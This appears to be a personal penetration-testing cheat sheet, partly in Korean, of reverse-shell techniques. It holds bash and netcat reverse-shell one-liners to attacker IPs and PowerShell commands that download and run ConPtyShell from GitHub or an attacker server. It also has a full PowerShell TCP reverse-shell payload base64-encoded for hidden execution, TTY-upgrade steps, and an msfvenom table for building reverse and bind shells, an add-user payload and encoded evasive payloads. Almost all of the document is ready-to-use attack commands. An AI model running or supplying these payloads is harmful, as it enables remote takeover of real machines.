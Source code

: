 ```yaml
---
sticker: lucide//command
---
```

### Bourne Shell one-liner
```sh
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
```

### Bash Shell one-liner
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR_IP> 9001 >/tmp/f
```

### Reverse Shell → Interactive upgrade
```bash
activemq@broker:/opt/apache-activemq-5.15.15/bin$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<bin$ python3 -c 'import pty;pty.spawn("/bin/bash")'
activemq@broker:/opt/apache-activemq-5.15.15/bin$ ^Z
zsh: suspended  nc -lnvp 9001
                                                                                                             
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg   

activemq@broker:/opt/apache-activemq-5.15.15/bin$ export TERM=xterm
```
(※ ^z 이후 bg 를 하면 background 에서 다시 돌아간다. 이는 터널링 작업을 할 때 유용함)

### conPtyShell
Fully-Interactive Shell 로 리버스쉘을 만들 때 사용 가능
https://github.com/antonioCoco/ConPtyShell
```powershell
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001
```
혹은 공격자 서버에 Invoke-ConPtyShell.ps1 을 받아서 실행
```powershell
IEX(IWR https://<ATTACKER_ADDRESS>/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001
```

이후 공격자에게서 실행
```bash
stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

cmd 에서 실행하려면,
```cmd
powershell -ExecutionPolicy Bypass -NoProfile -Command "iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1'); Invoke-ConPtyShell 10.0.0.2 3001"
```

### PowerShell one-liner
**powershell**
```powershell
kali@kali:~$ pwsh
PowerShell 7.1.3
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

PS> $Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'


PS> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

PS> $EncodedText =[Convert]::ToBase64String($Bytes)

PS> $EncodedText
JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0
...
AYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA


PS> exit

```

**python**
```python
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.118.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

### msfvenom cheatsheet

| MSFVenom Payload Generation One-Liner                                                                                                                                                                                   | Description                                     |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------- |
| msfvenom -l payloads                                                                                                                                                                                                    | List available payloads                         |
| msfvenom -p PAYLOAD --list-options                                                                                                                                                                                      | List payload options                            |
| msfvenom -p PAYLOAD -e ENCODER -f FORMAT -i ENCODE COUNT LHOST=IP                                                                                                                                                       | Payload Encoding                                |
| msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf                                                                                                                                    | Linux Meterpreter reverse shell x86 multi stage |
| msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf                                                                                                                                       | Linux Meterpreter bind shell x86 multi stage    |
| msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf                                                                                                                                             | Linux bind shell x64 single stage               |
| msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf                                                                                                                                          | Linux reverse shell x64 single stage            |
| msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe                                                                                                                                      | Windows Meterpreter reverse shell               |
| msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe | Windows Meterpreter http reverse shell          |
| msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe                                                                                                                                        | Windows Meterpreter bind shell                  |
| msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe                                                                                                                                            | Windows CMD Multi Stage                         |
| msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe                                                                                                                                        | Windows CMD Single Stage                        |
| msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe                                                                                                                                              | Windows add user                                |
| msfvenom -p osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho > shell.macho                                                                                                                                        | Mac Reverse Shell                               |
| msfvenom -p osx/x86/shell_bind_tcp RHOST=IP LPORT=PORT -f macho > shell.macho                                                                                                                                           | Mac Bind shell                                  |
| msfvenom -p cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw > shell.py                                                                                                                                               | Python Shell                                    |
| msfvenom -p cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw > shell.sh                                                                                                                                                 | BASH Shell                                      |
| msfvenom -p cmd/unix/reverse_perl LHOST=IP LPORT=PORT -f raw > shell.pl                                                                                                                                                 | PERL Shell                                      |
| msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp > shell.asp                                                                                                                                      | ASP Meterpreter shell                           |
| msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.jsp                                                                                                                                           | JSP Shell                                       |
| msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > shell.war                                                                                                                                           | WAR Shell                                       |
| msfvenom -p php/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.php cat shell.php                                                                                                                            | pbcopy && echo '?php '                          |
| msfvenom -p php/reverse_php LHOST=IP LPORT=PORT -f raw > phpreverseshell.php                                                                                                                                            | Php Reverse Shell                               |
| msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('[http://IP/nishang.ps1')\](http://ip/nishang.ps1'\)%5C)"" -f python                                  | Windows Exec Nishang Powershell in python       |
| msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x04\xA0"                                                                                                     | Bad characters shikata_ga_nai                   |
| msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/fnstenv_mov -b "\x04\xA0"                                                                                                        | Bad characters fnstenv_mov                      |
